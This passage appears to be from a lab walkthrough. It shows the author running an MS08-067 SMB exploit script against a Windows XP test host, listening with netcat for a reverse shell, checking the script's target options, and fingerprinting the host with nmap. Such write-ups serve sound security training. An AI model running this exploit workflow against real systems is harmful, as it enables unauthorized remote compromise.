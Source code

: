 Windows XP SP0/SP1 Universal

[-]Initiating connection
[-]connected to ncacn_np:10.10.10.4[\pipe\browser]
Exploit finish

------------------------------------------------------------------------------------------------------

# nc -nvlp 443
listening on [any] 443 ...
`

The exploit finished, but I see nothing on port 443.  Let's check the options again.

`
# grep -B1 "Windows XP" 40279.py 
        if (self.os=='1'):
                print 'Windows XP SP0/SP1 Universal\n'
--
        elif (self.os=='5'):
                print 'Windows XP SP3 French (NX)\n'
--
        elif (self.os=='6'):
                print 'Windows XP SP3 English (NX)\n'
--
        elif (self.os=='7'):
                print 'Windows XP SP3 English (AlwaysOn NX)\n'
--

                                print 'Example: MS08_067.py 192.168.1.1 1 for Windows XP SP0/SP1 Universal\n'
`


Oh, I forgot the check the OS version with nmap.  Checking now.

`
# nmap -O 10.10.10.4
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-24 21:44 CDT
Nmap scan report for 10.10.10.4
Host is up (0.042s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE
139/tcp  open   netbios-ssn
445/tcp  open   microsoft-ds
3389/tcp closed ms-wbt-server
Device type: general purpose|specialized
Running (JUST GUESSING): Microsoft Windows XP|2003|2000|2008 (92%), General Dynamics embedded (88%)
OS CPE: cpe:/o:microsoft:windows_xp cpe:/o:microsoft:windows_server_2003 cpe:/o:microsoft:windows_2000::sp4 cpe:/o:microsoft:windows_server_2008::sp2
Aggressive OS guesses: Microsoft Windows XP SP2 or Windows Small Business Server 2003 (92%), Microsoft Windows 2000 SP4 or Windows XP SP2 or SP3 (92%), Microsoft Windows XP SP2 (91%), Microsoft Windows Server 2003 (90%), Microsoft Windows XP SP3 (90%), Microsoft Windows XP Professional SP3 (90%), Microsoft Windows XP SP2 or SP3 (90%), Microsoft Windows XP Professional SP2 (90%), Microsoft Windows XP SP2 or Windows Server 2003 (90%), Microsoft Windows 2000 Server (89%)
No exact OS matches for host (test conditions non-ideal).
`

